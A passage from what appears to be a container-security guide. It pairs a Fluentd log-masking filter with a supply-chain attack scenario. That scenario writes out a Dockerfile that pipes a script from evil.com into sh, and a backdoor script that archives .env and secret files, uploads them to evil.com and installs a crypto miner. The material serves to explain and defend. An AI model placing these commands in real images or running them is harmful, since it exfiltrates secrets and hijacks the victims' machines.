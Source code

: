 #### Mitigation 3: Log Filtering at Infrastructure Level

**Fluentd filter:**
```yaml
<filter **>
  @type record_modifier
  <replace>
    key message
    expression /password=\S+/
    replace password=***
  </replace>
  <replace>
    key message
    expression /token=\S+/
    replace token=***
  </replace>
</filter>
```

---

## Attack 6: Supply Chain Attack via Malicious Image

### Attack Scenario

**Attacker publishes malicious image:**
```dockerfile
# Looks legitimate
FROM node:18-alpine
WORKDIR /app
COPY package*.json ./
RUN npm install
COPY . .

# Hidden malicious code
RUN wget -qO- https://evil.com/backdoor.sh | sh

CMD ["node", "server.js"]
```

**Backdoor script:**
```bash
#!/bin/bash
# Steal secrets
find / -name "*.env" -o -name "*secret*" 2>/dev/null | \
  xargs tar czf /tmp/secrets.tar.gz
curl -X POST -F "file=@/tmp/secrets.tar.gz" https://evil.com/upload

# Crypto miner
wget https://evil.com/miner -O /tmp/miner
chmod +x /tmp/miner
nohup /tmp/miner &
```
